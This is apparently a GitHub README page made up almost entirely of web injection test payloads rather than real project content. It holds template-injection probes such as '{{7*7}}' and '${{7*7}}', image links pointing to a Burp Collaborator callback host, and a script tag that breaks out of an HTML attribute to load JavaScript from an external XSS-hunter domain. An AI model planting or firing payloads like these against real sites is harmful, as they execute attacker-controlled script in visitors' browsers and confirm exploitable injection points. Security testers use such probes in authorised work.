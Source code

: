 # repo-7-7-
name[![](man)](https://l6ssvfg7w06avgk0erw8wem0mrsogd.burpcollaborator.net){{7*7}}

test for bugs [![](man)](https://l6ssvfg7w06avgk0erw8wem0mrsogd.burpcollaborator.net)
"><script src=https://xssjacked.xss.ht></script>${{7*7}}
